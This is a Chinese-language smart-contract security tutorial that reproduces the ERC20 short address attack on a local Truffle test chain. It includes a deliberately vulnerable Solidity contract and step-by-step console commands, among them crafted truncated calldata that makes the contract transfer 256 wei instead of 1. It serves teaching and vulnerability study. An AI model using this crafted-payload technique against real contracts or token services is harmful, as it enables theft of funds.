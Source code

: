 ```yaml
---
title: Short-Address-Attack
date: 2018-06-11 09:56:45
tags:
---
```


# Short Address Attack
## 短地址攻击
### 源代码：[DASP_TOP_10_Tutorial - 09.Short_Address_Attack](https://github.com/UUUUnotfound/DASP_TOP_10_Tutorial/tree/master/09.Short_Address_Attack)
### 环境依赖
```
cat /etc/issue
#Ubuntu 16.04.3 LTS

node --version
#v10.2.1

truffle version
#Truffle v4.1.11 (core: 4.1.11)
#Solidity v0.4.24 (solc-js)
```
### 环境安装
```
sudo apt-get install nodejs
sudo apt install nodejs-legacy
sudo apt install npm
sudo npm install n -g
sudo n stable

npm install -g truffle
```

### 被攻击合约 
Attack.sol
```
pragma solidity ^0.4.11;


contract Attack {

  mapping(address => uint256) balances;

  event Transfer(address,address,uint256,bytes);
  
  function Attack() payable {
      msg.value;
  }
  
  function () payable {
      msg.value;
  }
  
  function transfer(address _to,uint _value) {
    _to.send(_value);
    Transfer(msg.sender,_to,_value,msg.data);
  }


  function balanceOf(address _owner) constant returns (uint256 balance) {
    return balances[_owner];
  }

}
```

### 使用 
```
git clone https://github.com/UUUUnotfound/DASP_TOP_10_Tutorial.git

cd DASP_TOP_10_Tutorial/09.Short_Address_Attack/Short_Address_Attack

truffle develop
```

![](images/20180611095812635.png)



### 以下是truffle console 中代码
只需要在truffle console 里输入 ***truffle(develop)>*** 后面的内容

#### 编译合约

***truffle(develop)>*** `compile`

![](images/20180611095916894.png)


#### 部署合约

***truffle(develop)>*** `migrate`

![](images/20180611095959436.png)


*
Using network 'develop'.

...
  Attack: 0x345ca3e014aaf5dca488057592ee47305d9b3e10
Saving successful migration to network...
  ... 0xf36163615f41ef7ed8f4a8f192149a0bf633fe1a2398ce001bf44c43dc7bdda0
Saving artifacts...

*
#### 初始化默认账户

***truffle(develop)>*** `web3.eth.defaultAccount = web3.eth.accounts[2]`

![](images/20180611100225886.png)




#### 短地址

***truffle(develop)>*** `wallet_short_address = "0x14723a09acff6d2a60dcdf7aa4aff308fddc8800"`


![](images/20180611103603835.png)



#### 编译生成 Attack合约地址 填到下面 

***truffle(develop)>*** `contract_short_address_attack = Attack.address`

![](images/20180617014938967.png)


#### 查看短地址钱包余额

***truffle(develop)>*** `web3.eth.getBalance(wallet_short_address).toString()`
*output:'0'*

![](images/20180611100357767.png)


#### 构造raw msg.data

原始数据 从remix-ide获取的msg.data
也可以自己构造 至于直接使用 remix-ide 里面复现不成功有几点原因
1. 直接在代码合约里使用`address("0x14723a09acff6d2a60dcdf7aa4aff308fddc88").send(1)`会变成 `address("0x0014723a09acff6d2a60dcdf7aa4aff308fddc88").send(1)`
2. 前台通过参数输入 `0x14723a09acff6d2a60dcdf7aa4aff308fddc88,1` 的形式会被识别成string类型而不通过检查,引发报错

`raw data: byte4(keccak("transfer(address,uint)")+"0x14723a09acff6d2a60dcdf7aa4aff308fddc8800"+1`

***truffle(develop)>*** `raw="a9059cbb00000000000000000000000014723a09acff6d2a60dcdf7aa4aff308fddc88000000000000000000000000000000000000000000000000000000000000000001"`



![](images/20180611103653930.png)


![](images/20180611104124308.png)



#### 构造 短地址攻击POC msg.data 
POC msg.data是将raw中的地址部分后两字节'00'(共16bits)删除,这里evm虚拟机会从右补全,也就是说 `0x1->0x100 = 256`
`00000000000000000000000000000000000000000000000000000000000001`
`0000000000000000000000000000000000000000000000000000000000000100`
poc_data byte4(keccak("transfer(address,uint)")+"0x14723a09acff6d2a60dcdf7aa4aff308fddc88"+1

***truffle(develop)>*** ```poc_data="a9059cbb00000000000000000000000014723a09acff6d2a60dcdf7aa4aff308fddc880000000000000000000000000000000000000000000000000000000000000001";```

![](images/20180611104151264.png)


#### 先给contract_short_address_attack合约充值

充值10000000 wei 防止ether不够

***truffle(develop)>*** `web3.eth.sendTransaction({to:contract_short_address_attack,value: 10000000})`

![](images/20180611100737634.png)


#### 这里发送 1 wei，属于测试合约是否能正常工作
***truffle(develop)>*** `web3.eth.sendTransaction({to:contract_short_address_attack,data: raw})`

![](images/20180611100759385.png)


#### 再次查看短地址钱包余额
再查看 wallet_short_address 的余额已经增加了 1 wei
***truffle(develop)>*** `web3.eth.getBalance(wallet_short_address).toString()`

![](images/20180611104220575.png)

#### 发送POC msg.data到Attack合约 
相当于发送 `0x100=256 wei` 到 `wallet_short_address`

***truffle(develop)>*** `web3.eth.sendTransaction({to:contract_short_address_attack,data: poc_data})`

![](images/20180611104611182.png)


#### 再次查看短地址钱包余额
再查看 wallet_short_address 的余额已经增加了 256 wei
***truffle(develop)>*** `web3.eth.getBalance(wallet_short_address).toString()`

![](images/20180611104621386.png)





> Tips:
> 如果报错
>#SyntaxError: Unexpected end of JSON input while parsing near
>
>可能是因为使用了淘宝nodejs源(https://registry.npm.taobao.org)
>可以尝试以下命令切换
>
>`npm config set registry http://registry.cnpmjs.org`

> 参考
> 
> 1.[Analyzing the ERC20 Short Address Attack – Eric Rafaloff](https://ericrafaloff.com/analyzing-the-erc20-short-address-attack/)
>
> 2.[以太坊智能合约安全入门了解一下（下）](http://rickgray.me/2018/05/26/ethereum-smart-contracts-vulnerabilities-review-part2/#3-Arithmetic-Issues)

